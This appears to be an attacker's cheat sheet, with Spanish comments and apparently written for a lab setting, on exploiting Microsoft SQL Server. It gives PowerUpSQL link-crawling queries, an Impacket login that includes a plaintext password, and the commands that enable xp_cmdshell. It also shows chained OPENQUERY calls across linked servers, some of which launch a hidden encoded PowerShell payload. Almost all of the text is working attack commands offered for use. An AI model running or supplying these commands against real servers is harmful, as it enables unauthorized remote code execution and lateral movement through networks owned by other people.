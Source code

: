 ```powershell
CustomQuery : 
Sysadmin    : 1
Path        : {SQL-1, SQL-2.SUCURSAL.EXTERNAL}
User        : sa
Links       : 

# Informacion Util
powershell Get-SQLServerLinkCrawl -Instance "SQL-2.SUCURSAL.EXTERNAL" -Query "select * from master..syslogins" | ft

# Consultas
powershell Get-SQLQuery -Instance "sql-1.dev.evilcorp.local,1433" -Query "exec xp_cmdshell 'net config workstation'" 

# Login Impacket/MSSQLClient
proxychains python3 mssqlclient.py dev/johndoe:Password1\!@10.10.40.221 -dc-ip 10.10.40.100 -windows-auth

```


#### XP_CMDSHELL
```sql
#(habilitando funciones avanzadas de MSSQL) 
sp_configure 'show advanced options', '1' 
RECONFIGURE 

#(Habilitando xp_cmdshell) 
sp_configure 'xp_cmdshell', '1' 
RECONFIGURE 

#(Ejecutando Comandos via xp_cmshell) 
EXEC xp_cmdshell 'whoami'; GO
```


```sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell' ;
SELECT * FROM master..sysservers ;
SELECT * FROM OPENQUERY("SQL-1.CYBERBOTIC.IO", 'select @@SERVERNAME') ;


SELECT * FROM OPENQUERY("SQL-1.CYBERBOTIC.IO", 'select @@SERVERNAME')
SELECT * FROM OPENQUERY("SQL-1.CYBERBOTIC.IO", 'select  * from sys.configurations where name = ''xp_cmdshell'' ')
SELECT * FROM OPENQUERY("SQL-1.CYBERBOTIC.IO", 'select @@SERVERNAME ; exec xp_cmdshell ''powershell -nop -w hidden -enc $B64PAYLOAD'' ')

SELECT * FROM OPENQUERY("SQL-1.CYBERBOTIC.IO", 'SELECT * FROM OPENQUERY("SQL01.ZEROPOINTSECURITY.LOCAL", ''SELECT @@SERVERNAME'')')
SELECT * FROM OPENQUERY("SQL-1.CYBERBOTIC.IO", 'SELECT * FROM OPENQUERY("SQL01.ZEROPOINTSECURITY.LOCAL", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell '''' '')')
SELECT * FROM OPENQUERY("SQL-1.CYBERBOTIC.IO", 'select * FROM OPENQUERY("sql01.zeropintsecurity.local", ''SELECT @@SERVERNAME ; xp_cmdshell ''''powershell -nop -w hidden -enc $B64PAYLOAD '''' '')')

```
